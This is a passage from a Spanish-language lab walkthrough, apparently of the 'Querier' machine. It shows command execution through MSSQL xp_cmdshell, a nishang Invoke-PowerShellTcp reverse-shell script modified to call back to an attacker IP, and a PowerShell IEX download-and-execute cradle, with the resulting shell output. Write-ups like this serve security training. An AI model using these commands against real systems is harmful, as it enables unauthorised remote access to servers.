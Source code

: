 - Ahora ya podemos ejecutar comandos.

```bash
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "whoami"
output
-----------------
querier\mssql-svc

NULL

SQL (QUERIER\mssql-svc  dbo@master)>
```

- Ahora podemos ganar acceso ala maquina empleando lo siguiente <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1>.

- Vamos a modificar el script para entablarnos una `reverse shell` directamente.

```bash
➜  content echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.11 -Port 443' >> Invoke-PowerShellTcp.ps1
➜  content cat Invoke-PowerShellTcp.ps1 | tail -n 1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.11 -Port 443
```

- Vamos a ejecutar un servicio `http` con `python3` por el puerto `80`.

```bash
➜  content python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Y ahora nos podemos en escucha por el puerto 443 para que nos llegue la `reverse shell`.

```bash
➜  content rlwrap nc -nvlp 443
listening on [any] 443 ...
```

- Ahora usamos el `xp_cmdshell`.

```bash
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.15.11/Invoke-PowerShellTcp.ps1\")"
```

- Nos llega la `reverse shell`.

```bash
➜  content rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.11] from (UNKNOWN) [10.129.67.247] 49677
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
querier\mssql-svc
PS C:\Windows\system32>
```
